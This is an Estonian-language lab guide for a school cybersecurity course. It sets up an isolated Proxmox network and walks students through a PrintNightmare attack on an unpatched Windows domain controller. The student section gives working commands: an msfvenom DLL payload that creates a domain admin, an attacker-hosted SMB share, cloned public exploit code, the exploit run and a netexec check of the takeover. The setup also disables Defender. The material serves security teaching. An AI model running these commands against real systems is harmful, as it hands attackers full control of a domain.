

## Haavatava Windows Serveri ISO

PrintNightmare ründe õnnestumiseks on kriitiline kasutada operatsioonisüsteemi tõmmist, mis on väljastatud enne 2021. aasta juulit. Microsofti ametlikust Evaluation Centerist allalaaditavad ISO-failid on tänaseks juba sisseehitatud turvapaikadega (uuendatud *build*).

Kutsekooli laborisse on kõige kindlam laadida algne Windows Server 2019 RTM (Release to Manufacturing) hindamisversioon Archive.org andmebaasist:

* **Failinimi:** `17763.1.180914-1434.rs5_release_SERVER_EVAL_x64FRE_en-us.iso`
* **Allalaadimise link:** [Archive.org Windows Server 2019 Eval RTM](https://www.google.com/search?q=https://archive.org/details/17763.1.180914-1434.rs5_release_SERVER_EVAL_x64FRE_en-us)

---

## Labori ettevalmistus (Süsteemiadministraatorile)

Järgnev seadistus tagab, et pahavara ja SMB-liiklus ei leki Proxmoxi laborist välja kooli põhivõrku.

1. **Proxmoxi isoleeritud võrgu seadistamine:** Sisemise virtuaalsilla (bridge) loomine.
Loo Proxmoxi *Network* sätete all uus Linux Bridge (nt `vmbr1`). Jäta *Bridge ports* väli täiesti tühjaks. See tekitab suletud *switchi*, millel puudub igasugune ühendus välismaailmaga.


2. **Haavatava domeenikontrolleri paigaldus:** Print Spooler peab olema aktiivne.
Paigalda alla laaditud 2019 ISO abil uus virtuaalmasin ja ühenda see `vmbr1` võrku (anna staatiline IP, nt `192.168.50.10`).

1. Paigalda *Active Directory Domain Services* roll ja edenda server domeenikontrolleriks (nt `hkhk.local`).
2. Ava *Services* (`services.msc`) ja veendu, et **Print Spooler** teenus on olekus *Running* ja *Automatic*.
3. Lülita Windows Defenderi reaalajas kaitse välja, et see ei blokeeriks demonstratsiooni eesmärgil loodud DLL-faile.


3. **Tavakasutaja loomine:** Ründajal on vaja algset sissepääsu.
Loo Active Directorys uus standardkasutaja. Ründajal on seda vaja Print Spooler teenusega suhtlemiseks.

* Kasutajanimi: `opilane1`
* Parool: `Koolitus2026!`
* Õigused: Ainult *Domain Users* (vaikimisi).


4. **Ründaja virtuaalmasina lisamine:** Kali ühendamine isoleeritud võrku.
Paigalda või klooni laborisse Kali Linuxi masin ja ühenda selle võrgukaart samuti `vmbr1` külge. Anna sellele samast alamvõrgust IP (nt `192.168.50.20`). Veendu, et Kali ja Windows saavad üksteist pingida.


---

## Ründe anatoomia (PrintNightmare RCE)

Alljärgnev joonis illustreerib tehnilist töövoogu, kuidas piiratud õigustega kasutaja kasutab printimisteenust ära domeeni kompromiteerimiseks.



---

## Ründamise juhend (Õpilasele)

Selle praktilise ülesande eesmärk on mõista, miks isegi madalate õigustega kompromiteeritud konto kujutab endast infrastruktuurile kriitilist ohtu, kui süsteemides jooksevad üleliigsed ja paikamata teenused.

1. **Pahaloomulise DLL-faili loomine:** Tagaukse (payload) konstrueerimine.
Ava Kali Linuxis terminal. Genereerime `msfvenom` tööriistaga "printeridraiveri" (DLL-faili), mis sisaldab käsku uue domeeniadministraatori loomiseks.

```bash
msfvenom -p windows/x64/exec CMD='cmd.exe /c net user kuberopilane P@r00l123! /add /domain & net group "Domain Admins" kuberopilane /add /domain' -f dll -o /tmp/payload.dll

```


2. **Failijagamise (SMB) avamine:** Impacket smbserver.py kasutamine.
Selleks, et Windowsi domeenikontroller saaks Sinu loodud faili alla laadida, pead selle tegema võrgus kättesaadavaks. Käivita Impacketi tööriist, mis loob ajutise, ilma paroolita SMB-jaga nimega `jaga`.

```bash
impacket-smbserver jaga /tmp/ -smb2support

```

*Jäta see terminali aken lahti ja jooksma.*


3. **Eksploiti ettevalmistamine:** Ründekoodi alla laadimine GitHubist.
Ava teine terminali aken. Laadime alla PrintNightmare'i automatiseeritud ründeskripti.

```bash
git clone https://github.com/cube0x0/CVE-2021-34527
git clone https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527
cd CVE-2021-34527

```


4. **PrintNightmare ründe sooritamine:** RCE käivitamine üle võrgu.
Käivita eksploit. Pead ette andma haavatava serveri IP, Sulle teadaoleva tavakasutaja mandaadid ja viite äsja loodud SMB-jagale (Sinu Kali IP-aadress).

```bash
python3 CVE-2021-34527.py hkhk.local/opilane1:'Koolitus2026!'@192.168.50.10 "\\\\192.168.50.20\\jaga\\payload.dll"

```

*Edukuse korral näed esimeses terminaliaknas, kuidas Windowsi server logib sisse Sinu SMB-jagasse ja laeb alla `payload.dll` faili.*


5. **Rünnaku tulemuse verifitseerimine:** Kontrollimine ja sisse logimine.
Kontrolli, kas uus kõrgete õigustega kasutaja loodi edukalt. Kasuta Netexec (või CrackMapExec) tööriista uue kasutajaga sisselogimiseks:

```bash
netexec smb 192.168.50.10 -u kuberopilane -p 'P@r00l123!' -x 'whoami /priv'

```

Kui rünnak õnnestus, näitab väljund `Pwn3d!` ja kinnitab Sinu administraatori õiguseid. Oled saavutanud domeeni üle täieliku kontrolli.
